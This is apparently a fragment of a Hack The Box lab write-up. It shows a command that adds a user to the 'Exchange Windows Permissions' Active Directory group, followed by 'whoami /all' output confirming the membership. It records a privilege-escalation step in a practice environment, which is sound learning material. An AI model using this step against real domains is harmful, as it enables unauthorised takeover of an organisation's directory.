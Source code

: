 This was the one that I really needed:

```
net group "Exchange Windows Permissions" sh1n0bi /add /domain
The command completed successfully.

```


<hr width="300" size="10">


```

PS > whoami /all

USER INFORMATION
----------------

User Name   SID                                          
=========== =============================================
htb\sh1n0bi S-1-5-21-3072663084-364016917-1341370565-7601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes                                        
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
HTB\Exchange Windows Permissions           Group            S-1-5-21-3072663084-364016917-1341370565-1121 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
